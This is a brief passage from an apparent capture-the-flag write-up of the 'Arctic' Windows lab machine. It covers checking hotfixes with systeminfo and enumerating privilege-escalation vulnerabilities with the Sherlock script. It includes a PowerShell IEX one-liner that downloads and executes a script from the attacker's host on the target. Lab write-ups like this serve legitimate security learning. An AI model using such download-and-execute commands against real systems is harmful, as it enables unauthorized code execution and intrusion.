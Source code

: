 Now we check for systeminfo to check for any `hotfixes`

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/systeminfo.png)

Now we search and find that their is script that checks for vulnerablitities of missing software patches for local privilege escalation vulnerabilities. [sherlork](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1) now we save the script and be able to execute if so that we can run.

from the script just copy the function find Allvulns and put at the end of the script them from the session run

```sh
powershell "IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/sherlork.ps1')"
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Arctic/Screenshots/sherlork.png)
